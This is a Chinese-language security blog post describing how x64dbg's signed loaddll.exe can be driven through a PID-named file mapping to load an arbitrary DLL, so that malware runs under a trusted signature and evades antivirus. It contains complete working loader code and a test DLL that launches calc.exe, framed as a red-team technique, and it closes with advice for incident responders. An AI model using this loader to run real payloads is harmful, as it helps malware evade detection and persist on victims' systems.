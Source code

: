 ```yaml
---
title: "x64dbg中的白加黑利用"
date: 2022-08-17
description: 在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库，当下一次攻击发生时，将会通过特征库进行比对，因此成本对抗不言而喻，红队的木马需要重新修改、编译，大大增加了对抗的时间、精力，这就是威胁情报的一种价值。反观有些软件确实会需要开发一些敏感行为的功能，如修改注册表、屏幕录像截图但这些是用户知情且授权的行为，这时杀毒软件再进行拦截的话，将大大降低软件使用的体验，所以出现了软件签名技术可以解决这类问题，当然软件签名技术不仅仅是为了只解决这一个问题而出现的....
url: /archivers/2022-08-17/1
---
```


## 0x00 何谓白加黑？

在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库，当下一次攻击发生时，将会通过特征库进行比对，因此成本对抗不言而喻，红队的木马需要重新修改、编译，大大增加了对抗的时间、精力，这就是威胁情报的一种价值。反观有些软件确实会需要开发一些敏感行为的功能，如修改注册表、屏幕录像截图但这些是用户知情且授权的行为，这时杀毒软件再进行拦截的话，将大大降低软件使用的体验，所以出现了软件签名技术可以解决这类问题，当然软件签名技术不仅仅是为了只解决这一个问题而出现的。有些APT组织会通过控制软件开发商的代码仓库进行投毒或者通过入侵软件开发商来窃取签名，给自己的木马加上签名验证，杀毒软件遇到签名将会默认信任这个程序。但攻击软件开发商所需要投入的成本也相对比较高，telegram上也出现了花钱签名的服务，不过白嫖怪的数量可比金主爸爸要多，白嫖怪为了得到一个可以以签名程序运行自己任意代码的条件就会去挖掘一些软件厂商的程序是否存在DLL劫持漏洞，利用DLL劫持的特性达到披着羊皮的狼的目的。现阶段基本上大多数的APT组织在进行权限维持都会采用白加黑的技术来绕过杀毒软件的拦截和检测（特殊行为除外）。本文将会分享一个关于x64dbg这款调试工具的白加黑利用技巧。

## 0x02 x64dbg的DLL加载组件

[x64dbg](https://github.com/x64dbg/x64dbg) 是一个开源的Windows平台下的调试工具，相比于OllyDbg我更喜欢x64dbg。打开x64dbg的目录，可以看到有一个loaddll.exe程序，顾名思义，它一定具有dll加载的功能。

![](https://images.payloads.online/2022-08-17-15-50-00.png)

在跟进到它的[源代码](https://github.com/x64dbg/x64dbg/blob/development/src/loaddll/loaddll.cpp)：

```cpp
#include <windows.h>

wchar_t szLibraryPath[512];

int main()
{
    wchar_t szName[256];
    wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)GetCurrentProcessId());
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_READ, false, szName);
    if(hMapFile)
    {
        const wchar_t* szLibraryPathMapping = (const wchar_t*)MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, sizeof(szLibraryPath));
        if(szLibraryPathMapping)
        {
            lstrcpyW(szLibraryPath, szLibraryPathMapping);
            UnmapViewOfFile(szLibraryPathMapping);
        }
        CloseHandle(hMapFile);
    }
    if(szLibraryPath[0])
        return (LoadLibraryW(szLibraryPath) != NULL);
    return 0;
}
```

代码非常简单，大致功能是读取本地系统上一个文件映射具柄，从文件映射句柄中获取要加载的dll文件路径。文件句柄的名称包含了当前进程的PID，是不固定的。那么如何实现任意文件加载呢？

这个问题也比较简单，我的大致思路：

1. 调用CreatProcess创建一个暂停的主线程的loaddll.exe
2. 获得loaddll.exe这个进程的启动信息，读取到它的进程ID
3. 创建文件映射，把要加载的dll路径写入文件映射中，等待loaddll.exe读取
4. 将loaddll.exe进程的线程从挂起状态恢复成运行状态

Invoke-Loader测试代码：

```c
#include <Windows.h>
#include <stdio.h>
#include <sddl.h>

WCHAR dllPath[1024] = L"C:\\Windows\\Temp\\Test\\DllMain.dll";
WCHAR loaderPath[] = L"C:\\Windows\\Temp\\Test\\loaddll.exe";

HANDLE CreateMapFile() {
	HANDLE hFile = NULL;
	hFile = CreateFile(L"C:\\Windows\\Temp\\Test\\2.log", FILE_GENERIC_READ | FILE_GENERIC_WRITE, FILE_SHARE_READ,
		NULL,
		OPEN_ALWAYS,
		NULL,
		NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		return NULL;
	}
	WriteFile(hFile, dllPath, sizeof(dllPath), NULL, NULL);
	return hFile;
}

int __stdcall WinMain(
	HINSTANCE hInstance,
	HINSTANCE hPrevInstance,
	LPSTR     lpCmdLine,
	int       nShowCmd
){
	wchar_t szName[256];
	DWORD dwFileSize = 0;
	
	HANDLE hFile = NULL;
	HANDLE hFileMap = NULL;
	SECURITY_ATTRIBUTES attributes;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	ZeroMemory(&attributes, sizeof(attributes));
	attributes.nLength = sizeof(attributes);
	
	ConvertStringSecurityDescriptorToSecurityDescriptorA(
		"D:P(A;OICI;GA;;;SY)(A;OICI;GA;;;BA)(A;OICI;GWGR;;;IU)",
		SDDL_REVISION_1,
		&attributes.lpSecurityDescriptor,
		NULL);

	hFile = CreateMapFile();
	if (hFile == NULL) {
		return 0;
	}
	
	
	BOOL bStatus = CreateProcessW(loaderPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED| CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
	if (bStatus == NULL) {
		/*wprintf(L"[-] CreateProcess Error %d \n", GetLastError());*/
		return 0;
	}
	
	ZeroMemory(szName, sizeof(szName));
	
	wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)pi.dwProcessId);
	
	
	hFileMap = CreateFileMappingW(hFile, &attributes, PAGE_READWRITE, 0, 1024, szName);
    

	ResumeThread(pi.hThread);

	Sleep(3000);
	return 0;
}
```

编写一个dll文件用于测试：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 弹出一个计算器
        WinExec("calc.exe", TRUE);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## 0x03 加载任意dll测试

![](https://images.payloads.online/2022-08-17-15-51-15.png)

双击Invoke-Loader.exe，就会弹出计算器：

![](https://images.payloads.online/2022-08-17-15-51-29.png)

通过ProcessMonitor分析一下过程是不是如我所想的那样：

![](https://images.payloads.online/2022-08-17-15-51-41.png)

首先创建了2.log，内容是DllMain.dll的绝对路径，然后再创建loaddll.exe：



![](https://images.payloads.online/2022-08-17-15-51-52.png)

主线程创建的时候因为是暂停状态，是没有加载任何dll的，当文件映射设置完毕，恢复线程状态后，它成功的加载了DllMain.dll。
![](https://images.payloads.online/2022-08-17-15-52-04.png)

![](https://images.payloads.online/2022-08-17-15-52-14.png)

这里的calc.exe的父进程是loaddll.exe。

## 0x04 总结


![](https://images.payloads.online/2022-08-17-15-52-37.png)

该程序上次更新已经是2020年了，可能已经被大范围滥用。


![](https://images.payloads.online/2022-08-17-15-52-47.png)

白加黑是一个降低红队攻击成本的一个方案，能够规避很多杀毒软件的拦截和扫描，在应急响应阶段对于签名程序的分析应更加关注签名程序加载的模块、进程行为做了哪些操作，签名验证仅仅是提高了攻击的门槛，不应该绝对信任签名程序。